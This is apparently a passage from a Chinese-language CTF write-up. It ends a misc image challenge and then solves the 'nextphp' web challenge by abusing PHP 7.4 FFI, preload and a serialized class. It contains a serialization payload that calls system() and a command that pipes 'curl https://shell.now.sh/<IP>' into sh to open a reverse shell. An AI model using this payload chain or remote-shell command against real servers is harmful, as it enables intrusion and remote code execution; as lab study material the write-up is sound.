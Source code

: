 ```
    if cc % width == 0:
        s+='n'

with open('bmp2','w') as f:
    f.write(s)
```

生成图片内容：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0154add879947a5c92.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t014e85711f506e9c84.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01204f25c29ae2dba5.png)

就可以的得到flag



## Web

### <a class="reference-link" name="nextphp"></a>nextphp

题目的环境是php 7.4.0-dev,增加了一些特性，比如preload、FFI、__serialize序列化等。需要绕过open_basedir和disable_function，需要使用PHP 7.4的新特性才可以绕过。

FFI可以在调用外部的函数，可以绕过上面的限制，但是本身调用FFI的时候是有条件的，需要在preload中执行，这就需要调用preload.php的类，

设置func为`FFI::cdef`，调用`int system(const char *command);`来执行系统命令，如下：

```
final class A implements Serializable `{`
        protected $data = [
            'ret' =&gt; null,
            'func' =&gt; "FFI::cdef",
            'arg' =&gt; "int system(const char *command);" ];
`}`
```

生成序列化串：<br>`C:1:%22A%22:95:`{`a:3:`{`s:3:%22ret%22;N;s:4:%22func%22;s:9:%22FFI::cdef%22;s:3:%22arg%22;s:32:%22int%20system(const%20char%20*command);%22;`}``}``

构造执行回连的命令<br>
a=$b=unserialize($_GET[b]);var_dump($b);var_dump($b-&gt;__get(‘ret’)-&gt;system(‘curl [https://shell.now.sh/](https://shell.now.sh/)&lt;IP&gt;|sh’));phpinfo();

然后执行就可以直接getshell，得到flag



## Reverse
